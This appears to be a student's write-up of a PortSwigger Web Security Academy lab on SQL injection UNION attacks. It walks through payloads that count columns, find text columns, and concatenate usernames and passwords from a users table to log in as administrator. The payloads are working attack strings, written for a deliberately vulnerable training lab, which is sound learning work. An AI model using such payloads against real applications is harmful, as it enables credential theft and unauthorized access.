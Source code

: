 # Lab: SQL injection UNION attack, retrieving multiple values in a single column
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables. 
* Hint:  The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

## Exp
1. Consider how many columns in this table
Payload: `?category=Lifestyle' UNION SELECT NULL,NULL--`
2. Consider the type of each columns
Payload: `?category=Lifestyle' UNION SELECT 1,'a'--`
As the payload above, the 1st column is number-based string, and 2nd column is text-based string.
    :::spoiler Result
    ![](https://i.imgur.com/9V0cYHD.png)
    :::
3. <font color="FF0000">通靈</font>: Find username and password
From the result above, there's just one column is text-based string that we can inject, so we can use concatenate operator `||` to concatenate two strings that we query together.
Payload: `?category=Gifts' UNION SELECT NULL,username||'~'||password FROM users--`
    :::spoiler Result
    ![](https://i.imgur.com/d1zw9eY.png)
    :::
4. Login by username and password that we fetch
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/P9CLaQg.png)
    :::

## Reference